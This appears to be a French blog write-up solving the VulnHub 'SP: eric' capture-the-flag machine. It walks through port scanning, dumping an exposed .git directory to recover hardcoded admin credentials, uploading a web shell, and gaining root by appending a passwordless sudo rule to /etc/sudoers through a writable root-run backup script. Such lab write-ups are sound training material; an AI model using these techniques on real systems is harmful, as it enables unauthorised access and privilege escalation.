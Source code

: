 ```yaml
---
title: "Solution du CTF SP: Eric de VulnHub"
tags: [CTF, VulnHub]
---
```


Le CTF [SP: eric](https://www.vulnhub.com/entry/sp-eric,274/) proposé sur VulnHub m'aura occupé quelques minutes. Avec une bonne énumération et les bons outils il tombe vite.

```
Nmap scan report for 192.168.56.76
Host is up (0.00025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d379153d114caf266cb2af6a0b9914fd (RSA)
|   256 8748763881c2a050cd4c39c07c7a0740 (ECDSA)
|_  256 8eb9dd8d149be3631dd70e54988d295b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Blog under construction
| http-git: 
|   192.168.56.76:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: minor changes 
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

J'avais lancé en parallème un `feroxbuster` qui a remonté les fichiers suivants sur le port 80 :

```
200       15l       27w      306c http://192.168.56.76/admin.php
200       13l       38w      281c http://192.168.56.76/index.php
301        9l       28w      315c http://192.168.56.76/upload
```

Allons voir du côté de ce dossier *.git* avec [GitDump: A pentesting tool that dumps the source code from .git even when the directory traversal is disabled](https://github.com/Ebryx/GitDump) :

```bash
$ python3 git-dump.py 
Please provide website URL with /.git/ directory e.g. example.com/.git/
$ python3 git-dump.py  http://192.168.56.76/.git/
URL for test: http://192.168.56.76/.git/
Fetching: http://192.168.56.76/.git/index
Fetching: http://192.168.56.76/.git/FETCH_HEAD
Fetching: http://192.168.56.76/.git/HEAD
Fetching: http://192.168.56.76/.git/ORIG_HEAD
Fetching: http://192.168.56.76/.git/config
Fetching: http://192.168.56.76/.git/description
Fetching: http://192.168.56.76/.git/info/exclude
Fetching: http://192.168.56.76/.git/info/refs
Fetching: http://192.168.56.76/.git/logs/HEAD
Fetching: http://192.168.56.76/.git/logs/refs/heads/develop
Fetching: http://192.168.56.76/.git/logs/refs/heads/master
Fetching: http://192.168.56.76/.git/packed-refs
Fetching: http://192.168.56.76/.git/logs/refs/remotes/origin/develop
Fetching: http://192.168.56.76/.git/logs/refs/remotes/origin/master
Fetching: http://192.168.56.76/.git/logs/refs/remotes/origin/step_develop
Fetching: http://192.168.56.76/.git/refs/heads/develop
Fetching: http://192.168.56.76/.git/refs/heads/master
Fetching: http://192.168.56.76/.git/refs/remotes/origin/develop
Fetching: http://192.168.56.76/.git/refs/remotes/origin/master
Fetching: http://192.168.56.76/.git/refs/remotes/origin/step_develop
Fetching: http://192.168.56.76/.git/refs/remotes/github/master
Fetching: http://192.168.56.76/.git/objects/info/packs
Fetching: http://192.168.56.76/.git/logs/refs/remotes/github/master
Fetching: http://192.168.56.76/.git/refs/remotes/origin/HEAD
Parsing Index File
Fetching: http://192.168.56.76/.git/objects/cc/1ab96950f56d1fff0d1f006821cab6b6b0e249
Fetching: http://192.168.56.76/.git/objects/3d/b5628b550f5c9c9f6f663cd158374035a6eaa0
Fetching: http://192.168.56.76/.git/objects/23/448969d5b347f8e91f8017b4d8ef6edf6161d8
Fetching: http://192.168.56.76/.git/objects/a8/9a716b3c21d8f9fee38a0693afb22c75f1d31c
Fetching: http://192.168.56.76/.git/objects/00/00000000000000000000000000000000000000
Fetching: http://192.168.56.76/.git/objects/c0/951efcb330fc310911d714acf03b873aa9ab43
Fetching: http://192.168.56.76/.git/objects/f6/4fb0e9d514c96dd3debd4cdb2b80ba21951dec
Script Executed Successfully
Run following command to retrieve source code: cd output && git checkout -- .
$ cd output && git checkout -- .
$ ls
admin.php  index.php
```

La totalité de la logique du site est présente dans `admin.php`. Je vous en laisse un extrait seulement :

```php
if ($_POST['submit']) {
    if ($_POST['username'] == 'admin' && $_POST['password'] == 'st@mpch0rdt.ightiRu$glo0mappL3') {
        $_SESSION['auth'] = 1;
    } else {
        exit("Wrong username and/or password. Don't even bother bruteforcing.");
    }
}
```

L'accès à l'interface admin à l'aide de ces identifiants nous permet d'uploader un web shell vers le dossier `/upload`.

Après comme à mon habitude j'utiliser reverse-ssh pour avoir un shell avec PTY.

```bash
www-data@eric:/home/eric$ ls
total 64K
drwxr-xr-x 4 eric eric 4.0K Dec 20 16:27 .
drwxr-xr-x 3 root root 4.0K Oct 28  2018 ..
-rw------- 1 eric eric   81 Dec 23  2018 .bash_history
-rw-r--r-- 1 eric eric  220 Oct 28  2018 .bash_logout
-rw-r--r-- 1 eric eric 3.7K Oct 28  2018 .bashrc
drwx------ 2 eric eric 4.0K Oct 28  2018 .cache
drwxrwxr-x 3 eric eric 4.0K Oct 28  2018 .local
-rw-r--r-- 1 eric eric  807 Oct 28  2018 .profile
-rw-r--r-- 1 eric eric    0 Oct 28  2018 .sudo_as_admin_successful
-rwxrwxrwx 1 root root   55 Oct 28  2018 backup.sh
-rw-r--r-- 1 root root  24K Dec 20 13:27 backup.zip
-rw-r--r-- 1 root root   13 Oct 28  2018 flag.txt
www-data@eric:/home/eric$ cat flag.txt 
89340a834323
```

Le contenu du script bash est le suivant :

```bash
#!/bin/bash
zip -r /home/eric/backup.zip /var/www/html
```

Il est visiblement exécuté régulièrement avec les droits root car le `backup.zip` est récent.

Je rajoute la ligne suivante dans le script :

```bash
echo "www-data ALL=(ALL) NOPASSWD: /bin/bash" >> /etc/sudoers
```

et 3 minutes plus tard :

```bash
www-data@eric:/home/eric$ sudo /bin/bash
root@eric:/home/eric# id
uid=0(root) gid=0(root) groups=0(root)
root@eric:/home/eric# cd /root
root@eric:~# ls
flag.txt
root@eric:~# cat flag.txt
6a347b975dd18ae6497c
```

*Publié le 20 décembre 2022*
